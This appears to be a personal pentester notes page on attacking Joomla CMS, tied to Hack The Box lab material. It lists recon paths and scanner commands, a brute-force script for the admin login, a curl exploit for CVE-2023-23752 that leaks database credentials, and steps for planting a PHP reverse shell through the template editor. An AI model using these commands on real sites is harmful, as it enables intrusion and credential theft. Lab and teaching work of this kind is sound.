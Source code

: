 # Joomla CMS

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)

<div class="row row-cols-lg-2"><div>

[Joomla](https://www.joomla.org/) is an open-source Content Management System (CMS) written in PHP. The version 5 is currently in development (2024).

* [GitHub](https://github.com/joomla/joomla-cms) <small>(4.9k ⭐)</small>
* [Documentation](https://docs.joomla.org/) <small>(⛪)</small>

You can see the repartition of active Joomla installations [here](https://developer.joomla.org/stats/cms_version).
</div><div>

The admin panel default URI is: `/administrator`.
</div></div>

<hr class="sep-both">

## Joomla Pentester Notes ☠️

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![devvortex](../../../../../cybersecurity/_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

<div class="row row-cols-lg-2"><div>

The `/robots.txt` file may contain the list of interesting paths. If the website was not properly configured, `/README.txt` may be accessible. It's also possible that there is a tag `<meta name="generator" ...>`.

It some versions, we may be able to access `/administrator/manifests/files/joomla.xml`, `/media/system/js/`, or `/plugins/system/cache/cache.xml` <small>(rather unreliable and outdated)</small> to find the version.

```ps
$ curl [...].xml | xmllint --format -
```

* OWASP initiated the development of [joomscan](https://github.com/OWASP/joomscan) <small>(1.1k ⭐)</small>

```ps
$ sudo apt install joomscan
$ joomscan -u URL
[+] Detecting Joomla Version
[++] Joomla x.y.z

<SNIP... Nothing of interest>
```

* You can try to use [droopescan](/cybersecurity/red-team/tools/scanners/web/droopescan.md) <small>(not really useful)</small>

```ps
$ droopescan scan joomla --url URL
<SNIP... Nothing of interest>
```

* You can try to use [JoomlaScan](https://github.com/drego85/JoomlaScan) <small>(0.2k ⭐, 2022 🪦)</small>
</div><div>

* Default username: `admin`. Password set at install time. You can test default credentials using [joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce) <small>(0.1k ⭐, 2020 🪦)</small> while you should not use it for brute force <small>(it sucks...)</small>.

```shell!
$ wget https://github.com/ajnik/joomla-bruteforce/raw/master/joomla-brute.py
$ cp /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt .
$ python joomla-brute.py -u URL -w http_default_pass.txt --username admin -v
```

* [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752): Exposed credentials `[4.0.0, 4.2.7]`. See also: [PoC (ruby)](https://github.com/Acceis/exploit-CVE-2023-23752) <small>(0.1k ⭐)</small> or manual exploitation:

```ps
$ curl -v URL/api/index.php/v1/config/application?public=true
"dbtype": "mysqli",
"host": "localhost",
"user": "xxx",
"password": "yyy"
"db": "joomla",
```

* When logged as administrator, you can upload a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):

In Joomla 3, Navigate to `Configuration > Templates > Templates`. In Joomla 4, navigate to `System > Site Templates`. Select a template.
Create a new file or upload one if you can. You can copy-paste a shell:

```ps
$ cat revshell.php | xclip -selection clipboard
```

The file path is shown in the editor, while, for reference, mine was at the URL:  `URL/templates/<your_selected_site_name>/revshell.php`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `/images`, `/home`, `/media`, `/templates`, `/modules`
* `/plugins`, `/includes`, `/language`, `/components`, `/api`
* `/cache`, `/libraries`, `/tmp`, `/layouts`, `/administrator`
* `/media/templates/site/<name>/assets/`
</div><div>
</div></div>